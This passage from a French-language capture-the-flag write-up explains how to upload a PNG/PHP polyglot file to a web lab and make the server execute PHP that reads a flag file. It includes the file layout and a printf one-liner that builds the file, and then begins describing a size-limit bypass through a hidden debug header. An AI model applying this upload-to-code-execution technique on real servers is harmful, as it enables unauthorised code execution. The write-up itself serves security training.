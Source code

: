 #### 3. Fichier hybride PNG/PHP

Le fichier créé est un **polyglotte** :
- Il est valide en tant qu'image PNG (magic numbers corrects)
- Il contient du code PHP exécutable
- Le serveur web l'exécute comme PHP grâce à l'extension `.php`

**Structure du fichier** :
```
┌─────────────────────────────────────────────┐
│  Fichier: image3.php (après upload)         │
├─────────────────────────────────────────────┤
│  89 50 4E 47 0D 0A 1A 0A  ← Magic PNG      │
│  (8 octets)                                 │
├─────────────────────────────────────────────┤
│  0A                        ← Newline        │
├─────────────────────────────────────────────┤
│  <?php readfile('FLAG_3.txt') ?>            │
│  ↑                                          │
│  Code PHP exécuté par le serveur            │
└─────────────────────────────────────────────┘
```

### Méthode alternative : Commande unique

Pour créer le fichier directement avec les magic numbers :

```bash
printf '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A\n<?php readfile("FLAG_3.txt") ?>' > image3.php.png
```

---

## Task 4 : Bypass de la restriction de taille de fichier via Debug Mode

### Objectif
Bypasser la restriction de taille minimale de fichier (80KB) imposée par le serveur en exploitant un header de debug caché dans la réponse HTTP.

### Vulnérabilité
Le serveur impose une taille minimale de **80KB** pour les uploads, ce qui empêche l'upload de petits fichiers PHP malveillants. Cependant, un header de debug `X-Debug-Mode` dans la réponse HTTP révèle un backdoor qui permet de bypasser cette restriction.

### Prérequis
- Burp Suite configuré et fonctionnel
- Navigateur configuré pour utiliser Burp comme proxy (127.0.0.1:8080)
- Compréhension des headers HTTP personnalisés

### Concept : Header de Debug comme Backdoor
